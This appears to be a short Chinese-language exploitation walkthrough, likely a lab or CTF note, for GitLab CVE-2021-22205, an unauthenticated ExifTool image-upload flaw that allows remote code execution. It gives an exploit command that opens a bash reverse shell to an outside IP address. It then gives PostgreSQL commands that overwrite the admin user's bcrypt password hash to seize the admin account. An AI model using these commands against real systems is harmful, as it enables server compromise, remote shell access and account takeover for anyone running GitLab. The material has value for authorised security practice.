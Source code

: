 # Gitlab

## CVE-2021-22205

GitLab是一款Ruby开发的Git项目管理平台。在11.9以后的GitLab中，因为使用了图片处理工具ExifTool而受到漏洞[CVE-2021-22204](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在GitLab服务器上执行任意命令。



```bash
python3.10 exp.py http://localhost:32780/ "bash -c 'bash -i >& /dev/tcp/121.5.169.223/39576 0>&1'"
```



## 改admin密码

查表

```postgresql
\l
\c gitlabhq_production
\dt
\x
select * from users where id = 1;
```

gitlab是用Bcrypt加密的，从网上找一个在线加密：https://www.bejson.com/encrypt/bcrpyt_encode/

改密码：

```postgresql
update users set encrypted_password='$2a$10$siuHWED6db8rb.Dp.nwmf.njgulkQPGzt0cI/ePQpJj/86a/rkzfy' where id = 1;
```

即可admin登录。